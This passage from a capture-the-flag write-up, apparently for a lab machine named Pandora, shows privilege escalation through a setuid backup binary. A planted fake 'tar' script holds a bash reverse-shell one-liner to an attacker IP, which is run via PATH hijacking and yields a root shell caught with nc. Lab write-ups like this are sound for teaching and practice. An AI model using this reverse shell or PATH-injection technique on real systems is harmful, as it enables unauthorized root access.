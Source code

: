 ```console
matt@pandora:/dev/shm$ file /usr/bin/pandora_backup
/usr/bin/pandora_backup: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7174c3b04737ad11254839c20c8dab66fce55af8, for GNU/Linux 3.2.0, not stripped

matt@pandora:/dev/shm$ ltrace /usr/bin/pandora_backup | tee ltrace.out
getuid()                                                             = 1000
geteuid()                                                            = 1000
setreuid(1000, 1000)                                                 = 0
puts("PandoraFMS Backup Utility")                                    = 26
puts("Now attempting to backup Pandora"...)                          = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                               = 512
puts("Backup failed!\nCheck your permis"...)                         = 39
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup failed!
Check your permissions!
+++ exited (status 1) +++
```

1. When executing `pandora_backup`, it acts normally. However, when executing `ltrace /path/to/pandora_backup`, it thows error because of lack of permission. => When this SUID script is executed, it elevates as the root-priv.

2. `tar` is used through relative path => PATH Injection

```console
matt@pandora:/dev/shm$ cat tar
#!/usr/bin/bash
bash -i >&/dev/tcp/10.10.14.14/443 0>&1
matt@pandora:/dev/shm$ ls -l tar
-rwxrwxr-x 1 matt matt 103 Feb  6 20:12 tar
matt@pandora:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:/dev/shm$ export PATH=.:$PATH
matt@pandora:/dev/shm$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client

------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.136] 52840
root@pandora:/dev/shm# id
id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:/dev/shm# uname -a
uname -a
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> http, snmp -> snmpwalk to find daniel's cred -> daniel's shell -> local service found & port forwarding -> cve rce -> matt shell -> suid backup file with relative command path tar -> path injection -> root shell
